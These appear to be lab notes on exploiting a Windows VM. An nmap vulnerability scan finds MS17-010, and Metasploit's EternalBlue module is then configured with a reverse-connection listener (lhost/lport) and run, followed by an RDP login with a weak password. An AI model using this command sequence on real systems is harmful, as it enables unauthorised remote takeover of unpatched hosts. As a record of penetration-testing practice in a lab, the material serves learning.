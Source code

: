 nessus
![39276f6b33cb137a6a9a16983c724afb.png](../_resources/39276f6b33cb137a6a9a16983c724afb.png)

1.  nmap --script=vuln 192.168.44.137

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-07 08:20 EDT
Nmap scan report for 192.168.44.137 (192.168.44.137)
Host is up (0.00027s latency).
Not shown: 990 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
MAC Address: 00:0C:29:DD:D4:B1 (VMware)

Host script results:
| smb-vuln-ms17-010:              **高危漏洞**
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED

Nmap done: 1 IP address (1 host up) scanned in 247.49 seconds

```

2.  msfconsole
3.  search ms17-010

```
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

```

4.  set rhost 192.168.44.137
    msf6 exploit(windows/smb/ms17\_010\_eternalblue) > set rhost 192.168.44.137
    rhost => 192.168.44.137
5.  set lhost 192.168.44.131
    msf6 exploit(windows/smb/ms17\_010\_eternalblue) > set lhost 192.168.44.131
    lhost => 192.168.44.131
6.  set lport 4444
    msf6 exploit(windows/smb/ms17\_010\_eternalblue) > set lport 4444
    lport => 4444
7.  run 
8.  get uid
9.  rdesktop -u root -p 123456 192.168.44.137